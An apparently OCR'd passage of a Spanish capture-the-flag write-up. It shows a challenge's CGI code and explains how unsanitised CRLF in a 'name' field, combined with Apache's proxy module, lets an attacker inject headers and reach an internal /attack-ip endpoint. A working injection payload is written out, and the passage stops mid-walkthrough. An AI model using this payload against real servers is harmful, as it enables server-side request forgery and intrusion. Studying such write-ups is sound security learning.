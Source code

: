 ```js
// Check if the user's IP is local
const isLocalIP = (ip) => {
    return ip === "127.0.0.1" || ip === "::1" || ip.startsWith("192.168.");
};

// Get the user's IP address
const userIP = "<?php echo $_SERVER['REMOTE_ADDR']; ?>";

// Enable/disable the "Attack IP" button based on the user's IP
const attackIPButton = document.getElementById("attack-ip");
```

attack-domain file:

```js
def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
    
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

Se observa que imprime Location: y Content-Type, pero no valida que name no incluya \r\n, lo que permite inyectar nuevas cabeceras HTTP, adicionalmente en el archivo Dockerfile se habilita el módulo proxy para Apache, el cual permite enviar peticiones a servicios http.

```docker
RUN a2enmod rewrite cgi proxy proxy_fcgi proxy_http
```

Ejemplo, si envío `name=a%0d%0aLocation: /a%0d%0aContent-Type: proxy:...`, se transforma en la siguiente respuesta.

```http
HTTP/1.1 302 Found
Location: /a
Content-Type: proxy:http://127.0.0.1/cgi-bin/attack-ip?target=...
```

Ahora que ya encontramos la forma de hacer solicitudes internas es hora de abusar del endpoint /attack-ip, el cual tiene como código.
